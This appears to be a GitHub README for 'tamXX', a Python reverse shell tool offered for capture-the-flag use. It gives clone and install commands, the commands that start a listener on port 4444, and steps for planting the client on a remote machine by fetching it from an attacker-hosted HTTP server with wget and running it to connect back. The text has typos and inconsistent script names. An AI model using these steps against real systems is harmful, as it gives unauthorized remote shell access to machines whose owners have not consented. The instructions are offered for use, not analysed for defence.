 # tamcat
What is tamXX ?
tamXX is a python reverse shell helping you in ctf
# REVERSE SHELL PYTHON
*by arvialo*

**SETUP tamXX**
```bash
git clone https://github.com/Arvialo/tamXX
cd tamXX
pip3 install -r requirements.txt
```

# USE tamXX
**ON LOCAL MACHINE**
```bash
chmod +x tamServ.py
./tamServ --help # get help
./tamServ -l -p 4444
./tamServ --listen --port 4444
```

**ON REMOTE MACHINE**
```bash
#firt, put tamCli.py on remote machine by http server for example
# on local machine : python3 -m http.server
# on remote machine : wget http://<IP>:8000/tamCli.py
chmod +x tamCli.py
./tamCli.py --help
./tamCl.py --target localhost --prompt --port 4444
